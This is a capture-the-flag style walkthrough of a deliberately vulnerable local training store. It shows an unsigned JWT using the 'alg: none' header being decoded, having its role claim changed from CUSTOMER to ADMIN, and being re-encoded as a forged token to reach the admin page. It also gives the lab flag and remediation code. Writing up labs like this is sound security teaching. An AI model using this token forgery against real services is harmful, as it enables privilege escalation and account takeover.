




This writeup demonstrates how a misconfigured JWT implementation using the `alg: "none"` header allows attackers to forge authentication tokens and escalate privileges from a regular customer account to administrator access.

## Table of contents

## Environment setup

Initialize the OopsSec Store application in a new directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm run dev
```

The installer retrieves dependencies, initializes a local SQLite database, seeds test user accounts, and starts the development server. Once the server is running, navigate to `http://localhost:3000` and authenticate using the test credentials displayed on the login page. For this exercise, log in as Alice, a standard customer account.

## Reconnaissance

The application uses JSON Web Tokens for session management. After successful authentication, the backend issues a token that is stored in the browser's local storage and transmitted with subsequent requests.

The application footer contains a visible link to `/admin`. Attempting to access this endpoint while authenticated as a customer account results in an access denied response, indicating role-based access control is enforced.



## Token extraction and analysis

Open the browser's developer tools and navigate to Application > Local Storage. The authentication token is stored under the key `auth_token`:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6ImNtazdoemVocjAwMDF0b2d2d3ZqdDgxMGQiLCJlbWFpbCI6ImFsaWNlQGV4YW1wbGUuY29tIiwicm9sZSI6IkNVU1RPTUVSIiwiZXhwIjoxNzY4NzYzNTU3fQ.
```



Decoding this token using [jwt.io](https://jwt.io) reveals the following structure:

**Header:**

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

**Payload:**

```json
{
  "id": "cmk7hzehr0001togvwvjt810d",
  "email": "alice@example.com",
  "role": "CUSTOMER",
  "exp": 1768763557
}
```

The `alg: "none"` header indicates that no cryptographic signature is applied to this token. The trailing dot with no signature segment confirms this. This configuration means the server performs no integrity verification on the token contents.



## Vulnerable code analysis

The vulnerability stems from two implementation flaws in the authentication system.

First, tokens are generated without cryptographic signing:

```javascript
const header = { alg: "none", typ: "JWT" };
```

Second, the server trusts the `role` claim directly from the token payload without validating it against the database. This violates a fundamental security principle: client-supplied data must never be trusted for authorization decisions.

## Exploitation

Modify the decoded payload to escalate privileges:

```json
{
  "id": "cmk7hzehr0001togvwvjt810d",
  "email": "alice@example.com",
  "role": "ADMIN",
  "exp": 1768763557
}
```

Encode the modified payload to Base64 and reconstruct the JWT by concatenating the original header, the new payload, and an empty signature segment (maintaining the trailing dot):

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.ewogICJpZCI6ICJjbWs3aHplaHIwMDAxdG9ndnd2anQ4MTBkIiwKICAiZW1haWwiOiAiYWxpY2VAZXhhbXBsZS5jb20iLAogICJyb2xlIjogIkFETUlOIiwKICAiZXhwIjogMTc2ODc2MzU1Nwp9.
```

Replace the `auth_token` value in local storage with the forged token and refresh the page. Navigate to `/admin` to confirm successful privilege escalation.



## Flag

Upon accessing the admin dashboard, the flag is displayed:

```
OSS{w34k_jwt_n0n3_4lg0r1thm}
```

## Remediation

Proper JWT implementation requires several security controls.

**Use cryptographic signing algorithms:**

```javascript
import jwt from "jsonwebtoken";

jwt.sign(payload, process.env.JWT_SECRET, {
  algorithm: "HS256",
  expiresIn: "7d",
});
```

**Verify token signatures on every request:**

```javascript
jwt.verify(token, process.env.JWT_SECRET);
```

**Retrieve authorization data from the database:**

```javascript
const user = await db.users.findById(decoded.id);

if (user.role !== "ADMIN") {
  return res.status(403).send("Forbidden");
}
```

The token should authenticate identity only. Authorization decisions must be derived from trusted server-side data sources, not from client-supplied claims embedded in the token.
